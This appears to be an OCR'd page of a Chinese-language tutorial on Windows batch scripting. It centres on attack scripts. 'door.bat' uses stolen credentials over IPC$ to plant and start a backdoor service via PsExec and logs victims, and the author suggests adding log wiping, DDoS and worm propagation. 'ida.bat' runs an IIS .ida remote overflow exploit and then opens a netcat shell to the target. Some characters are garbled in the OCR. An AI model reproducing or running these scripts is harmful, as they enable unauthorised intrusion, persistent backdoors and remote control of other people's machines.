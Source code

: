 ------------------- cut here then save as a batchfile(I call it door.bat) -----------------
@net use \%1\ipc$ %3 /u:"%2"
@if errorlevel 1 goto failed
@echo Trying to establish the IPC$ connection …………OK
@copy windrv32.exe\%1\admin$\system32 && if not errorlevel 1 echo IP %1 USER %2 PWD %3 >>ko.txt
@p***ec \%1 c:\winnt\system32\windrv32.exe
@p***ec \%1 net start windrv32 && if not errorlevel 1 echo %1 Backdoored >>ko.txt
:failed
@echo Sorry can not connected to the victim.
----------------- cut here then save as a batchfile(I call it door.bat) -------------------
这只是一个自动种植后门批处理的雏形，两个批处理和后门程序（Windrv32.exe）,PSexec.exe需放在统一目录下.批处理内容
尚可扩展,例如:加入清除日志+DDOS的功能,加入定时添加用户的功能,更深入一点可以使之具备自动传播功能(蠕虫).此处不多做叙述,有兴趣的朋友可自行研究.

简单批处理文件概念
######################################################################
echo This is test > a.txt
type a.txt
echo This is test 11111 >> a.txt
type a.txt
echo This is test 22222 > a.txt
type a.txt
第二个echo是追加
第三个echo将清空a.txt 重新创建 a.txt

netstat -n | find “3389”
这个将要列出所有连接3389的用户的ip.

test.bat___________________________________
@echo please care
echo plese care 1111
echo plese care 2222
echo plese care 3333
@echo please care
@echo plese care 1111
@echo plese care 2222
@echo plese care 3333
rem 不显示注释语句,本行显示
@rem 不显示注释语句,本行不显示
@if exist %windir%system32find.exe (echo Find find.exe !!!) else (echo ERROR: Not find find.exe)
@if exist %windir%system32fina.exe (echo Find fina.exe !!!) else (echo ERROR: Not find fina.exe)

下面我们以具体的一个idahack程序就是ida远程溢出为例子.应该是很简单的.

ida.bat______________________________
@rem ver 1.0
@if NOT exist %windir%system32idahack.exe echo “ERROR: dont find idahack.exe”
@if NOT exist %windir%system32nc.exe echo “ERROR: dont find nc.exe”

@if “%1” =="" goto USAGE
@if NOT “%2” =="" goto SP2

:start
@echo Now start …
@ping %1
@echo chinese win2k:1 sp1:2 sp2:3
idahack.exe %1 80 1 99 >%temp%_tmp
@echo “prog exit code [%errorlevel%] idahack.exe”
@type %temp%_tmp
@find “good luck 😃” %temp%_tmp
@echo “prog exit code [%errorlevel%] find [goog luck]”
@if NOT errorlevel 1 nc.exe %1 99
@goto END
